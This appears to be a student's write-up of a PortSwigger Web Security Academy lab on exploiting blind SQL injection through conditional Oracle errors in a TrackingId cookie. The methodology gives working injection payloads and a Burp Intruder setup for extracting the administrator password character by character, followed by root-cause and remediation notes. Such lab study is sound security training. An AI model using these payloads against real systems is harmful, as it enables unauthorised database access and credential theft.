


## Lab-06: Blind SQL Injection with Conditional Errors

# Lab Information
- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (Blind)
- **Difficulty:** Practitioner
- **Status:** Solved

# Objective
Exploit a blind SQL injection vulnerability by triggering conditional database errors, using this to determine the password of the "administrator" user one character at a time.

# Vulnerability
The application uses a "TrackingId" whose value is inserted directly into a SQL query on the backend, without sanitization or parameterization. The response does not return any query results or error messages directly, so the injection is "blind." However, the application behaves differently depending on whether the injected SQL condition is true or false, a "500 Internal Server Error" is returned when the condition causes the query to throw a database error, while a normal "200 OK" response is returned otherwise. This difference in behavior is enough to infer true/false answers about the data, one bit at a time.

# Methodology
1. Opened the lab, connected Burp, and captured the GET / request via the Proxy. Sent it to Repeater.
2. Tested the TrackingId cookie for injection 
   - ' → Internal Server Error
   - " → 200 OK
   - '||(SELECT '')||' → 500 error (not MySQL)
   - '||(SELECT '' FROM dual)||' → 200 OK (confirms Oracle)
   - '||(SELECT '' FROM dualnoexist)||' → 500 error (confirms non-MySQL/Oracle syntax)
3. Confirmed the users table exists
   '||(SELECT '' FROM users WHERE rownum=1)||' → 200 OK
4. Confirmed the administrator user exists using a conditional error:
   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' → 500 error confirms the user exists.
5. Determined password length by testing LENGTH(password)>N 
   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>N)||'. Used Burp Intruder (Sniper, numbers 1→50) to automate this.
Results: 500 error for N=1–19, 200 OK for N=20–30 → password length is exactly 20.
6. Extracted the password character by character using SUBSTR:
   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,POS,1)='CHAR')||'
   Used Intruder with Cluster Bomb attack:
   - Payload set 1 (position): numbers 1→20, step 1
   - Payload set 2 (character): brute force, length 1
   Searched results for 500 status code, which revealed the correct
   character at each position.
7. Recovered a unique password and logged in as administrator and the lab was marked solved.

# Evidence

# Root Cause
User input from the "TrackingId" cookie is concatenated directly into a SQL query, and the applications error handling leaks information, it responds differently "500" vs "200" depending on whether an injected condition is true or false. This difference in behavior is sufficient for an attacker to reconstruct arbitrary data from the database without ever seeing direct query output.

# Remediation
- Use parameterized queries/prepared statements so user input is always treated as data, never as SQL query.
- Handle database errors gracefully and consistently, so application behavior does not differ based on whether a query succeeded or failed.
- Avoid using user controlled input including cookies in SQL queries without validation.
- Apply least privileges to the database account used by the application.
- Implement rate limiting or anomaly detection to slow down automated blind injection attempts.

# Key Learnings
- Blind SQL injection does not require visible query output. Any observable difference in application behavior, such as an HTTP status code, response time, or response length, can serve as a true/false.
- Conditional error based techniques "CASE WHEN ... THEN (error) ELSE (no error) END" are a reliable way to turn a blind injection point into a binary signal.
- Data can be extracted character by character using functions like "SUBSTR()" combined with conditional logic, though this is slow manually and is typically automated with tools like Burp Intruder.
- Cookies and other non-obvious input points not just URL parameters and form fields, must also be treated as untrusted and validated.
